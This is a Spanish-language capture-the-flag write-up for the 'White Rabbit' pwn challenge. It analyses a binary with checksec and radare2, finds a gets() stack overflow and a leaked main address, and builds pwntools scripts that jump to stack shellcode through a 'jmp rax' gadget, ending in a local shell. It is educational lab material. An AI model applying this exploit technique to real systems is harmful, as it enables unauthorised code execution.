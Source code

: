 # Begginers / White Rabbit

Un reto de pwn, analizamos las propiedades del ejecutable

``` bash
checksec --file=white_rabbit 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   31 Symbols	  No	0		2	white_rabbit
```

+ No canary found: Es vulnerable a buffer overflow

+ NX disabled: El codigo de la pila es ejecutable

Observamos el binario
``` bash
./white_rabbit 

  (\_/)
  ( •_•)
  / > 0x5609dc927180

follow the white rabbit...
```

Nos filtran una direccion de memoria y podemos introducir datos. Desensamblamos el programa con Radare2 y observamos mejor este comportamiento al desensamblar sym.main y sym.follow respectivamente

``` asm
|           0x000011fc      488d057dff..   lea rax, [sub.dbg.main_1180] ; warmup.c:20 ; 0x1180
|           0x00001203      4889c6         mov rsi, rax
|           0x00001206      488d050d0e..   lea rax, str._______p_n_n   ; 0x201a ; "  / > %p\n\n"
|           0x0000120d      4889c7         mov rdi, rax                ; const char *format
|           0x00001210      b800000000     mov eax, 0  
|           0x00001215      e826feffff     call sym.imp.printf         ; int printf(const char *format)
```

``` asm
            ;-- follow:
            ; CALL XREF from sub.dbg.main_1180 @ 0x122e(x)
/ 23: sub.dbg.follow_1169 ();
| afv: vars(1:sp[0x78..0x78])
|           0x00001169      55             push rbp                    ; warmup.c:8 ; void follow();
|           0x0000116a      4889e5         mov rbp, rsp
|           0x0000116d      4883ec70       sub rsp, 0x70
|           0x00001171      488d4590       lea rax, [buf]              ; warmup.c:10
|           0x00001175      4889c7         mov rdi, rax                ; char *s
|           0x00001178      e8d3feffff     call sym.imp.gets           ; char *gets(char *s)
|           0x0000117d      90             nop                         ; warmup.c:11
|           0x0000117e      c9             leave
\           0x0000117f      c3             ret
```

Podemos ver que la dirección que se filtra es la de la función main, luego en sym.follow se encuentra la entrada de usuario capturada con gets (una función vulnerable). 

Podemos darnos cuenta de que se reservan 120 bytes antes de la direccion de retorno de main:

``` asm
    push rbp  -> reserva 8 bytes porque estamos en una arquitectura x86_64 y por lo tanto este registro es de 64 bits
    sub rsp, 0x70   ->  reserva 0x70(112 en decimal) bytes
```

Entonces ya tenemos el offset, probamos a llamar de nuevo a una dirección conocida (como main) para comprobar nuestra suposición

``` python3
# test.py
from pwn import *
import re

io = process('./white_rabbit')
elf = context.binary = ELF('./white_rabbit')

leak = io.recv()                                                
main = int(re.findall(b'0x[a-f0-9]+',leak)[0].decode(),0)       # Extraemos la direccion de memoria con una expresion regular

print(leak.decode())
payload = cyclic(120)                                           # offset
payload += p64(main)                                            # retorno

io.sendline(payload)

print(io.recv().decode())
io.close()
```


``` bash
python3 test.py 
[+] Starting local process './white_rabbit': pid 8850
[*] '/home/kalcast/Descargas/World_Wide_CTF_2024/Begginers/WhiteRabbit/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes

  (\_/)
  ( •_•)
  / > 0x555f7a73d180

follow the white rabbit...


  (\_/)
  ( •_•)
  / > 0x555f7a73d180

follow the white rabbit...

[*] Stopped process './white_rabbit' (pid 8850)
```

En efecto, tenemos control de RIP. Ahora tenemos que introducir un shellcode en la pila y encontrar una forma de apuntar a esta dirección

``` asm
   lea rax, [buf]   -> rax almacena la direccion base del buffer en la pila
```

Buscamos un gadget del tipo 'jmp rax'. En radare podemos hacer esto con `/R jmp rax`

``` asm 
/R jmp rax
  0x000010b1               7415  je 0x10c8
  0x000010b3     488b050e2f0000  mov rax, qword [rip + 0x2f0e]
  0x000010ba             4885c0  test rax, rax
  0x000010bd               7409  je 0x10c8
  0x000010bf               ffe0  jmp rax
``` 

Buscamos su desplazamiento con respecto a la direccion de main. Podemos ver la direccion de main listando las funciones con `afl` 

``` bash
python3
Python 3.12.7 (main, Oct  3 2024, 15:15:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0x00001180-0x000010bf)
'0xc1'
```

Ya tenemos todo lo necesario

``` python3
# rabbit.py
from pwn import *
import re

io = process('./white_rabbit')
elf = context.binary = ELF('./white_rabbit')

leak = io.recv()
main = int(re.findall(b'0x[a-f0-9]+',leak)[0].decode(),0)
shellcode = asm(shellcraft.sh())                           
jmp_rax = main - 0xc1

payload = shellcode
payload += cyclic(120-len(shellcode))
payload += p64(jmp_rax)

io.sendline(payload)
io.interactive()
io.close()
```

``` bash
 python3 rabbit.py 
[+] Starting local process './white_rabbit': pid 9346
[*] '/home/kalcast/Descargas/World_Wide_CTF_2024/Begginers/WhiteRabbit/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
[*] Switching to interactive mode
$ ls
rabbit.py  test.py  white_rabbit
```





